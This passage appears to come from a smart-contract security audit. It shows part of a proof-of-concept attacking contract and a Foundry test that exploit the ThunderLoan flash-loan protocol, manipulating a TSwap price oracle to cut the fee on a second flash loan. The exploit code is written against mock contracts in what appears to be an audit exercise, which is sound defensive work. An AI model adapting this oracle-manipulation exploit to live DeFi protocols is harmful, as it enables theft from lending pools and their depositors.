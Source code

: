 ```solidity
            // simulate withdrawing the funds from the price pool
           //MockTSwapPool(tSwapPool).setPrice(1e18);
            // repay the second, large low fee loan
            IERC20(token).approve(s_thunderLoan, attackAmount + attackFee2);
            IThunderLoan(s_thunderLoan).repay(address(tokenA), attackAmount + attackFee2);
            return true;
        }
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }
}

```

The following test first calls `flashloan()` with the attacking contract, the `executeOperation()` callback then executes the attack.

```solidity
function test_poc_smallFeeReentrancy() public setAllowedToken hasDeposits {
    uint256 price = MockTSwapPool(tokenToPool[address(tokenA)]).price();
    console.log("price before: ", price);
    // borrow a large amount to perform the price oracle manipulation
    uint256 amountToBorrow = 1e6;
    bool isFirstCall = true;
    bytes memory params = abi.encode(isFirstCall);

    uint256 expectedSecondFee = thunderLoan.getCalculatedFee(tokenA, attackFlashLoanReceiver.attackAmount());

    // Give the attacking contract reserve tokens for the price oracle manipulation & paying fees
    // For a less funded attacker, they could use the initial flash loan to perform the manipulation but pay a higher initial fee
    tokenA.mint(address(attackFlashLoanReceiver), AMOUNT);

    vm.startPrank(user);
    thunderLoan.flashloan(address(attackFlashLoanReceiver), tokenA, amountToBorrow, params);
    vm.stopPrank();
    assertGt(expectedSecondFee, attackFlashLoanReceiver.attackFee2());
    uint256 priceAfter = MockTSwapPool(tokenToPool[address(tokenA)]).price();
    console.log("price after: ", priceAfter);

    console.log("expectedSecondFee: ", expectedSecondFee);
    console.log("attackFee2: ", attackFlashLoanReceiver.attackFee2());
    console.log("attackFee1: ", attackFlashLoanReceiver.attackFee1());
}
```
